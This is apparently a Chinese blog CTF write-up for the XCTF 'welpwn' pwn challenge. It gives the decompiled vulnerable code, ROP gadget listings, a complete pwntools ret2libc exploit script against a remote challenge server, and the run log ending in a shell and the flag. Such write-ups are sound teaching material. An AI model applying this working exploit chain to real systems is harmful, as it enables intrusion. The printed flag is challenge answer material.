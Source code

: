 <!--yml
category: 未分类
date: 2022-04-26 14:19:10
-->

# welpwn [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列24_3riC5r的博客-CSDN博客_welpwn

> 来源：[https://blog.csdn.net/fastergohome/article/details/103724481](https://blog.csdn.net/fastergohome/article/details/103724481)

题目地址：[welpwn](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4767&page=1)

本题是高手进阶区的第13题，先看看题目

![](img/14bfe98f29eea6622b54eefede7a7fe6.png)

照例检查一下保护机制

```
[*] '/ctf/work/python/welpwn/a9ad88f80025427592b35612be5492fd'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没什么问题，只开了NX。

看下反编译之后的c语言代码：

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-400h]

  write(1, "Welcome to RCTF\n", 0x10uLL);
  fflush(_bss_start);
  read(0, &buf, 0x400uLL);
  echo((__int64)&buf);
  return 0;
}

int __fastcall echo(__int64 pszInputString)
{
  char szTemp[16]; // [rsp+10h] [rbp-10h]

  for ( g_nIndex = 0; *(_BYTE *)(g_nIndex + pszInputString); ++g_nIndex )
    szTemp[g_nIndex] = *(_BYTE *)(g_nIndex + pszInputString);
  szTemp[g_nIndex] = 0;
  if ( !strcmp("ROIS", szTemp) )
  {
    printf("RCTF{Welcome}", szTemp);
    puts(" is not flag");
  }
  return printf("%s", szTemp);
}
```

这个题目的代码量非常少。我们看到echo里面有数组下标溢出，但是有判断条件：输入的字符如果是0的话不再继续拷贝数据，那我们溢出的时候，就没法输入多个地址数据了。

我们用ida调试的时候发现echo函数的栈底下方接着的就是main函数的buf变量。

![](img/e201459f2ddccff2ff32159f2f107922.png)

我们试着输入多个地址数据

![](img/ff7e8b2efadd46b6de062dbe8d8af968.png)

看看堆栈的情况如何

![](img/8bc90461a44e477789961ce2cab85228.png)

用gdb调试，发现echo函数溢出之后只接收到了第一个地址，但是下面的堆栈有完整的多个地址的输入数据。

这就好办了，我们先pop出来4个堆栈数据，那么接下来就是我们输入的rop指令了。

那我们就先找一下连续4个pop的rop指令：

```
root@mypwn:/ctf/work/python/welpwn# ROPgadget --binary ./a9ad88f80025427592b35612be5492fd --only 'pop|ret'
Gadgets information
============================================================
0x000000000040089c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040089e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004008a0 : pop r14 ; pop r15 ; ret
0x00000000004008a2 : pop r15 ; ret
0x000000000040089b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040089f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400675 : pop rbp ; ret
0x00000000004008a3 : pop rdi ; ret
0x00000000004008a1 : pop rsi ; pop r15 ; ret
0x000000000040089d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400589 : ret
0x00000000004006a5 : ret 0xc148
0x000000000040081a : ret 0xfffd

Unique gadgets found: 13 
```

可以看到第一个40089c就是我们需要的指令，只需要一个地址就行了。那就把第一个地址放在溢出的eip，后面跟上我们需要的rop指令就好了。

构建一下python脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './a9ad88f80025427592b35612be5492fd'
# p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
p = remote('111.198.29.45', 54453)
elf = ELF(process_name)

main_addr = 0x4007CD
echo_addr = 0x40071D
pop_rdi_ret = 0x4008a3
pop4_ret = 0x40089c
write_got = elf.got['write']
puts_plt = elf.plt['puts']
payload = 'A'*(0x10+8) + p64(pop4_ret) + p64(pop_rdi_ret) + p64(write_got) + p64(puts_plt) + p64(main_addr)
# pause()

p.sendafter('Welcome to RCTF\n', payload)
p.recvuntil('A'*(0x10+8))
p.recv(3)
write_addr = u64(p.recvn(6).ljust(8, '\x00'))
log.info("write_addr => %#x", write_addr)

from LibcSearcher import *
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'A'*(0x10+8) + p64(pop4_ret) + p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
p.send(payload)
p.interactive() 
```

执行情况如下：

```
root@mypwn:/ctf/work/python/welpwn# python welpwn.py 
[+] Opening connection to 111.198.29.45 on port 54453: Done
[DEBUG] PLT 0x40059c puts
[DEBUG] PLT 0x4005b0 write
[DEBUG] PLT 0x4005c0 printf
[DEBUG] PLT 0x4005d0 alarm
[DEBUG] PLT 0x4005e0 read
[DEBUG] PLT 0x4005f0 __libc_start_main
[DEBUG] PLT 0x400600 strcmp
[DEBUG] PLT 0x400610 __gmon_start__
[DEBUG] PLT 0x400620 fflush
[*] '/ctf/work/python/welpwn/a9ad88f80025427592b35612be5492fd'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[DEBUG] Received 0x10 bytes:
    'Welcome to RCTF\n'
[DEBUG] Sent 0x40 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  9c 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000020  a3 08 40 00  00 00 00 00  20 10 60 00  00 00 00 00  │··@·│····│ ·`·│····│
    00000030  9c 05 40 00  00 00 00 00  cd 07 40 00  00 00 00 00  │··@·│····│··@·│····│
    00000040
[DEBUG] Received 0x10 bytes:
    'Welcome to RCTF\n'
[DEBUG] Received 0x22 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  9c 08 40 b0  d2 ee 66 35  │AAAA│AAAA│··@·│··f5│
    00000020  7f 0a                                               │··│
    00000022
[*] write_addr => 0x7f3566eed2b0
[+] ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64) be choosed.
[DEBUG] Sent 0x38 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  9c 08 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000020  a3 08 40 00  00 00 00 00  57 2d f8 66  35 7f 00 00  │··@·│····│W-·f│5···│
    00000030  90 b3 e3 66  35 7f 00 00                            │···f│5···││
    00000038
[*] Switching to interactive mode

$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x42 bytes:
    'bin\n'
    'dev\n'
    'flag\n'
    'lib\n'
    'lib32\n'
    'lib64\n'
    'libc32-2.19.so\n'
    'libc64-2.19.so\n'
    'welpwn\n'
bin
dev
flag
lib
lib32
lib64
libc32-2.19.so
libc64-2.19.so
welpwn
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2d bytes:
    'cyberpeace{1fcc408fd64acb1dcde98c0f11a7429b}\n'
cyberpeace{1fcc408fd64acb1dcde98c0f11a7429b}
```

执行成功！本题的知识点是用gdb进行内存堆栈调试，发现堆栈的排列情况。